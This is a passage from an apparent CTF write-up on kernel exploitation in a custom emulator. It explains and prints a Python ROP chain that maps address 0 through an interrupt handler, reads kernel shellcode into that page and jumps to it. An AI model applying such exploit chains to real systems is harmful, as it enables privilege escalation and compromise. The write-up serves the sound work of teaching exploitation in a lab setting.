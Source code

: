 We also control R13, so we just point it to a `pop rax ; ret` gadget to pop the address of the current gadget off the stack so we can continue the ROP chain (we have to do this because the last gadget does a `call`, which will push the next address onto the stack. We need to pop this address off the stack to continue our ropchain).

With the plan in motion, we have the following ROPchain as `krop2`. The comments should be self-explanatory for this. Also, `kshellcode` is referenced here, but it will be shown in the next section.

We continue from above where the read gadget is waiting for us to input our actual kernel ropchain:

```python
# Userland gadgets and addresses                                                
main = 0x4005f1                                                                 
syscall_ret = 0x400cf2                                                          
pop_rax = 0x400121                                                              
xchg_rdi_rax = 0x4009d3                                                         
pop_4 = 0x400af3 # pop rbx, rbp, r12, r13 ; ret                                 
mov_2_call = 0x4008bd # mov rdx, r12 ; mov rsi, rbx ; call r13                  
userland_ret_addr = 0x7fffffffdfa8 # Always constant in the emulator            
                                                                                
# Kernel gadgets and addresses                                                  
kern_base = 0xffffffff81000000                                                  
int_0x70 = 0xffffffff810001db # int 0x70 ; ret                                  
read_gadget = 0xffffffff8100008c # mov rcx, rsi; mov dx, 0x38f; rep insb; ret

# Prepare our actual kernel ropchain.                                           
# We're able to use userland addresses because those addresses have been        
# mapped into the kernel in the kernel thread handler.                          
#                                                                               
# The plan is to set rdi to 0, rsi to 0x1000, rdx to 7, rax to 9, and then         
# trigger int 0x70. This will go into the kernel interrupt handler and then        
# trigger a `uc_mem_map` call, which will map addr 0 in the kernel for us.         
# Then we will use our read gadget to read shellcode into addr 0.               
#                                                                               
# Note that we can't actually use a syscall gadget here because it makes no        
# sense for the kernel itself to do a syscall.                                  
krop2 = flat([                                                                  
    # Map address 0                                                             
    b"\x83"*0x50, # Pad to kernel stack ret addr + 8, krop1 returns here
    pop_rax, 0, # We will set rdi to 0 next                                     
    xchg_rdi_rax, # Not actually an xchg gadget, but semantically the same         
    pop_4, 0x1000, 0, 7, pop_rax, # Pop rbx, rbp, r12, r13                      
    mov_2_call, # mov rdx, r12 ; mov rsi, rbx ; call r13                        
    pop_rax, 9, # Put 9 into rax for mmap                                       
    int_0x70, # Trigger call to uc_mem_map through IRQ 0x70                     
                                                                                
    # Read shellcode into address 0 using the read gadget                       
    pop_rax, 0, # Prepare to set RDI to 0                                       
    xchg_rdi_rax,                                                               
    pop_4, len(kshellcode), 0, 0, pop_rax,                                      
    mov_2_call, # rsi = len(shellcode)                                          
    read_gadget, # Read into address 0                                          
    0,# Jump to address 0                                                       
]).ljust(0x38f, b"\x00") # Pad to 0x38f to end the initial read gadget

p.send(krop2) # Fully ROP on the kernel, mmap addr 0, read shellcode there
```
